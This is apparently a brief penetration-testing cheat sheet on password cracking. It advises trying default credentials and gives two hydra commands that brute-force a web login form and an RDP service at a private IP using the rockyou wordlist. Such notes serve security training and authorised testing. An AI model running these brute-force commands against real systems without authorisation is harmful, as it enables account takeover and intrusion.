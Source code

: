 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)

## First Rule
Always try the default credentials!

## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```